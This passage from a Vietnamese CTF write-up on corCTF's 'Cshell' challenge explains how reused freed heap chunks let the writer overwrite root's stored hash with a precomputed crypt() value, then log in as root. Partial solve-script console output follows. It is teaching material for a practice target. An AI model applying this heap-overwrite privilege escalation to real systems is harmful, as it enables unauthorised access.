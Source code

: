     - logout:
        - Chương trình yêu cầu ta nhập username và password để login vào lại, nó sẽ check xem username đã tồn tại chưa, nếu có rồi thì nhập pass và check pass, nếu thỏa thì sẽ login với uid của người dùng.
    - whoami:
        - Đơn giản chỉ show ra cho ta xem người dùng có uid là bao nhiêu.
    - bash:
        - Hàm này sẽ cho phép ta thực hiện lệnh system bất kì nếu uid = 0(root)
    - squad và exit không có tác dụng lắm.

    # Exploit

    - Mục tiêu của ta sẽ login với root để có uid là 0 và thực hiện system("cat flag.txt")
    - Mình không biết được password của root để login nhưng để ý rằng ta có thể overwrite password của root nếu ta malloc size = 128(0x80), vì trong hàm history có free 2 chunk, nên giờ nó sẽ sử dụng lại vùng nhớ đó để malloc, và vùng nhớ này đứng dưới vùng nhớ chứa username và password nên ta có thể overwrite.
    - Nhưng ta overwrite password của root thành gì khi nó so sánh hash(password,"1337") với cái ta overwrite. Ta thấy hàm crypt() dùng 1 key cố định là "1337" nên với đầu vào giống nhau thì đầu ra sẽ luôn giống nhau. Ví dụ đầu vào mình là "a"*8 thì đầu ra sẽ luôn là "13OTCcGbCo.BQ" vậy ta chỉ cần overwrite username, password của root thành 0x00746f6f72000000(root) 0x43544f3331000000(13OTC) 0x51422e6f43624763(cGbCo.BQ) ở dạng little endian. Như vậy khi ta login với username là root và password là "a"*8 ⇒ thành công và có uid là 0 có thể thực hiện bash.

```c
dinhvu@LAPTOP-63U3K24D:/mnt/c/Users/ADMIN/Desktop/corCTF/Cshell$ python2 solve.py
[+] Opening connection to pwn.be.ax on port 5001: Done
[*] Switching to interactive mode
       /\
      {.-}
     ;_.-'\
    {    _.}_
    \.-' /  `,
     \  |    /
      \ |  ,/
       \|_/

Welcome to Cshell, a very restricted shell.
Please create a profile.
Enter a username up to 8 characters long.
> Welcome to the system aaa, you are our 3rd user. We used to have more but some have deleted their accounts.
Create a password.
> How many characters will your bio be (200 max)?
> Great, please type your bio.
> +----------------------+
|        Commands      |
+----------------------+
| 1. logout            |
| 2. whoami            |
| 3. bash (ROOT ONLY!) |
| 4. squad             |
| 5. exit              |
+----------------------+
Choice > Username:Password:Authenticated!
+----------------------+
|        Commands      |
+----------------------+
| 1. logout            |
| 2. whoami            |
| 3. bash (ROOT ONLY!) |
| 4. squad             |
| 5. exit              |
+----------------------+
```